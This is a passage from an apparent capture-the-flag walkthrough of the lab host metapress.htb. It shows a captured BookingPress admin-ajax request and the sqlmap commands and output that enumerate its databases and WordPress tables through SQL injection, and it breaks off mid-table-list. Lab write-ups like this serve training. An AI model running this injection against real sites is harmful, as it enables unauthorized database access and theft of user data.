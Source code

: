 - On the request I also have to remove all the possible query traces, because it will be automatically made by the tool
    ```txt
    POST /wp-admin/admin-ajax.php HTTP/1.1
    Host: metapress.htb
    User-Agent: curl/7.84.0
    Accept: */*
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded
    Connection: close

    action=bookingpress_front_get_category_services&_wpnonce=8c57e8f795&category_id=33&total_service=0
    ```

    Ok, I save it in a txt file and I can start

    First of all I see which databases are there: `sqlmap -r request.txt --batch --dbs`
    ```
    available databases [2]:
    [*] blog
    [*] information_schema
    ```

    Now I check all the tables present in the `blog` database: `sqlmap -r request.txt --batch -D blog --tables`
    ```
    [27 tables]
    +--------------------------------------+
    | wp_bookingpress_appointment_bookings |
    | wp_bookingpress_categories           |
    | wp_bookingpress_customers            |
    | wp_bookingpress_customers_meta       |
    | wp_bookingpress_customize_settings   |
    | wp_bookingpress_debug_payment_log    |
    | wp_bookingpress_default_daysoff      |
    | wp_bookingpress_default_workhours    |
    | wp_bookingpress_entries              |
    | wp_bookingpress_form_fields          |
    | wp_bookingpress_notifications        |
    | wp_bookingpress_payment_logs         |
    | wp_bookingpress_services             |
    | wp_bookingpress_servicesmeta         |
    | wp_bookingpress_settings             |
    | wp_commentmeta                       |
    | wp_comments                          |
    | wp_links                             |
    | wp_options                           |
    | wp_postmeta                          |
    | wp_posts                             |
    | wp_term_relationships                |